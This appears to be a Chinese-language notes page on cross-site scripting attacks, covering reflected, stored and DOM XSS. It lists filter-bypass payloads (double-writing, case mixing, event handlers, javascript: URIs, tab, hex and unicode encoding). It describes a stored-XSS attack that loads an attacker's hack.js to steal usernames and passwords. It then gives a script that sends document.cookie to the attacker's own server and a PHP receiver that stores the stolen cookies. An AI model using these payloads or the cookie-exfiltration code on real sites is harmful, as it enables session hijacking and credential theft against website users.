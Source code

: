 ```yaml
---
published: true
---
```

## XSS
指是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入Web里面的html代码会被执行，从而达到恶意用户的特殊目的。  
Reflect xss：  
    它通过给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数被HTML解析、执行。它的特点是非持久化，必须用户点击带有特定参数的链接才能引起。下面博客很好的讲述了反射型XSS的利用:  
http://netsecurity.51cto.com/art/201311/417201.htm  

对于xss防御的绕过方式：   
1.双写绕过  
输入<sc<script>ript>alert(/xss/)</script>  
2.大小写混淆绕过  
<ScRipt>alert(/xss/)</script>    
3.<img src=1 onerror=alert(/xss/)>  
4.当<>被转译为&lt时  
 " onmouseover=alert(document.domain) x=“  （x=" 用于闭合  “>）  
 或者 " onmouseover=alert(document.domain)>  
5.javascript:alert();#js伪协议在a标签的使用,可以在输入时构造a标签  
   <a href=javascript:alert(1)>test</a>  
6.当script被替换xscript时，尝试用tab制表(%09)绕过  
 <a href=javas%09cript:alert(1)>test</a>  
但是制表符使用在单个标签之内，会被浏览器`正确`去除，然而在跨标签的时候（即闭合前面原有标签，使用在构造者构造的新标签的时候)不会被消除，使用&#09 tab制表符html十进制编码：javascri&#09pt:alert()   

7.特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\。   
javascript中的String.fromCharCode方法来绕过，我们可以把alert("XSS");转换为   
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41)那么我们的XSS语句就变成了 
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)</script> 
String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串。   
8.进行hex编码来绕过XSS。  
<script>alert("xss");</script> 可以转换为：   
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%78%73%73%22%29%3b%3c%2f%73%63%72%69%70%74%3e

### Stored  xss  
把恶意脚本存储到被攻击者的网站的数据库。其他人访问数据库中的恶意脚本代码后，浏览器执行恶意脚本。 
思路  
1.通过nodeJS在后端开启两个不同端口的服务，即两个不同域的站点。  
2.被攻击者网站  
 a:在登录时，把用户的用户名、密码信息存入cookie中  
 b.有一个评论功能，用户在文本框内输入评论信息，然后提交到服务器。  
3.攻击者在评论处输入<script src='hack.js'></script>,点击提交后这段脚本存入到数据库  
 hack.js文件是攻击者网站的js脚本文件，用来获取用户的cookie中的用户名、密码信息，并且把用户名、密码发送到攻击者指定的网站。  
4.当网站的用户访问带有评论<script src='hack.js'></script>信息时，会下载hack.js文件，并且执行，网站被攻击。  

DOM XSS  
由于文档的某些输入输出没有过滤，攻击者可以插入js代码，在客户端进行攻击造成xss攻击。 常见于：document.location,document.URL,document.URLUnencoded,document.referrer,windows.location等 
若插入的js被另一个文档对象所操作那么可以叫它为dom xss。   

1、构造document.write()的playload，如果<>被过滤时，可以使用16进制编码<变为\x3c，>为\x3e    
		\x3cscript\x3ealert(document.domain);\x3c/script\x3e 
  但是document.write在输出的时候会JavascriptDecode一下数据，会把数据原有\去除，所以要变为  
  \\x3cscript\\x3ealert(document.domain);\\x3c/script\\x3e   
2、\x不起作用可以考虑unicode编码   
     \\u003cimg src=x onerror=alert(document.domain)\\u003e   

### 当你注入了js，如何取得cookie呢？
1.编写js脚本利用存储型xss漏洞（留言板）来传输cookie到自己的服务器端 
      <script> 
      Var cook =document.cookie; 
      Var  img =‘<img src=“自己的服务器ip/get.php？cookie=‘+encodeURL(cook)+’ “ />’; 
      Document.write(img) 
      </script> 
2.本地编写get.php 获取传输的COOKEIE存入xss.txt.   
<?php   
 $cook=isset($_GET(‘cookie’))?$_GET(‘cookie’):NULL;   
file_put_contents(“xss.txt”,$cook);   
?>    
得到cookie后就能进行欺骗，想获得更多信息 查看js的document对象和windows对象，ajax请求。   


XSS小技巧   
1、eval(“alert(1)”);会当作js运行   
2、若是页面没有申明charset=UTF-8，那么可以使用UTF-7构造playload http://toolswebtop.com/text/process/decode/utf-7   
3、使用 ‘ //进行闭合,    ”>来闭合value值   
4、有下拉选择框时，可能注入点不止一个，burp查看修改。可能也需要闭合
